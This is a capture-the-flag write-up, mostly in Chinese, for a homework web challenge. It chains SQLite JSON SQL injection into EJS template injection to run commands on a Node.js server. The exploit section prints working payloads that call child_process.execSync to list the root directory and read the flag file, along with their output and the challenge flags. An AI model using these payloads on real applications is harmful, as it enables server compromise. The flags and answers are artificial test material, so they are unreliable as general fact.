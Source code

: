 # Simple Web 0x42(2023 HW - Double Injection - FLAG2)
## Background
Node JS ejs SSTI
## Source code
呈上題
## Recon
這一題想了很久，因為我沒有跟影片，想說應該都是跟去年差不多或是在臺科的網頁安全一樣，但其實相關的payload就是在講義上，花了一整天寫的我be like:
![](https://memeprod.ap-south-1.linodeobjects.com/user-template/7266c8627075418a7979b79481bf0f84.png)
基本上就是連接前一題的思緒，既然我們知道admin的password也就是FLAG1，那麼我們就可以用前一題的payload:
```!
admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- #
```
後面搭配簡單的XSS也是可以通的，原本想說可以利用XSS達到RCE，但就我之前和Kaibro的詢問，XSS應該沒有這麼powerful，所以我就往SSTI或command injection下手，後來經過@cs-otaku的提點才知道ejs有一個洞，也是上課有提到的SSTI控到RCE，當時看的文章是Huli大寫的，內容詳細說明了為甚麼會有這個洞以及該如何構造攻擊的payload，不過整體更複雜也算是需要客製化的題目才需要了解這麼多，這一題算是只要取得經典的payload就可以攻克，如果想要用動態看他跑得怎麼樣，可以用web storm跟，想知道整體的動態流程可以看[之前寫的文章](https://hackmd.io/@SBK6401/HkgkDNsPp)
## Exploit - Ejs SSTI RCE
* Payload 1:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("ls -al /").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result:
        ```
        total	76	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	.	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	..	
        -rwxr-xr-x	1	root	root	0		Dec	18	18:54	.dockerenv	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	bin	
        drwxr-xr-x	5	root	root	340		Dec	18	18:54	dev	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	etc	
        -rw-r--r--	1	root	root	28		Dec	18	17:15	flag1.txt	
        -rw-r--r--	1	root	root	23		Dec	18	17:15	flag2-1PRmDsTXoo3uPCdq.txt	
        drwxr-xr-x	1	root	root	4096	Dec	18	17:15	home	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	lib	
        drwxr-xr-x	5	root	root	4096	Dec	7	09:43	media	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	mnt	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	opt	
        dr-xr-xr-x	497	root	root	0		Dec	18	18:54	proc	
        drwx------	1	root	root	4096	Dec	11	18:36	root	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	run	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	sbin	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	srv	
        dr-xr-xr-x	13	root	root	0		Dec	18	18:54	sys	
        drwxrwxrwt	1	root	root	4096	Dec	22	17:16	tmp	
        drwxr-xr-x	1	root	root	4096	Dec	18	13:27	usr	
        drwxr-xr-x	12	root	root	4096	Dec	7	09:43	var	
        ```
* Payload 2:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("cat /flag2-1PRmDsTXoo3uPCdq.txt").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result: `FLAG{ezzzzz_sqli2ssti}`

Flag: `FLAG{ezzzzz_sqli2ssti}`

## 補充: How to debug it?
這邊示範如何用vscode debug這個project
1. 可以先看[這個文章](https://hackmd.io/@SBK6401/HkgkDNsPp)準備一些前置作業
2. 在文章中有提到，docker幫忙做的事情，現在要自己完成
    ```bash
    $ sudo touch /flag1.txt ; sudo chmod 777 /flag1.txt ; sudo echo "test" > /flag1.txt
    $ sudo node init-db.js ; sudo chmod 444 /etc/db.sqlite3
    ```
3. 接著就可以開始debug app.js了
## Reference
[CTF 中的 EJS 漏洞筆記](https://blog.huli.tw/2023/06/22/ejs-render-vulnerability-ctf/?ref=blog.splitline.tw)
[AIS3-EOF-CTF-2019-Quals - echo WP](https://github.com/CykuTW/My-CTF-Challenges/tree/master/AIS3-EOF-CTF-2019-Quals/echo)
[ejs RCE CVE-2022-29078 bypass](https://inhann.top/2023/03/26/ejs/)